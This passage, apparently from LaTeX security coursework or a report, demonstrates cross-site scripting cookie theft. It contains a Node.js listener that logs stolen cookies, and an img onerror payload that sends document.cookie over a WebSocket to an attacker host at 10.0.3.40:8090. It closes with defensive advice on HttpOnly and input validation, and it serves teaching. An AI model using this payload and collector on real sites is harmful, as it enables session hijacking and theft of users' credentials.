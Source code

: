 	\begin{lstlisting}
		//
		var http = require('http');
		
		var server = http.createServer(function (req, res) {
			console.log("Cookie retrived:"+req.url);
			res.end('! HACKED !');
		})
		
		server.listen(8090,'10.0.3.40');
	\end{lstlisting}
	
	
	The output of the server is something like:
	
	\texttt{Cookie retrived:/stealer?v=PHPSESSID=vcqqs219ns7b4naui67bmug}.\newline
	
	Opening a new WebSocket will not give you the cookie, in fact the cookie can be sent over if the host is the same of the web page, and our malevolent server is likely to be on a different address, using the \texttt{document.cookie} in order to create a false cookie is not that easy because the browser avoid the creation of cookie related to other domains.
	But it is possible to send the cookie via WebSocket with a simple invocation of the send(…) method, in fact with this script it is possible to trick a client:
	
	\begin{lstlisting}
		<img src=1 hidden onerror="var badws=new WebSocket('ws://10.0.3.40:8090/'); badws.onopen=function(event){ var tmp=document.cookie;badws.send(tmp);}">
	\end{lstlisting}

	
	The malevolent WebSocket code is equal to the other just seen before; it simply receives the cookie and stores it.\newline
	This approach is better because it is silent; the previous one was easy to notice by a user simply because the page in front of him changed.\newline
	Note: this is a special because the cookie used by PHP via JavaScript, there are case where a Cookie cannot be retrieved by \texttt{document.cookie} and this does not allow an attacker to steal precious data from a client.
	In order to avoid the retrieval of a cookie by JavaScript, it must be marked with \texttt{HttpOnly} flag.
	Remember that even if you store data in the \texttt{SessionStorage} you are not safe at all because an attacker could access it.
	With these two examples is clear how data validation is important and must be performed in order to avoid serious attack.
	
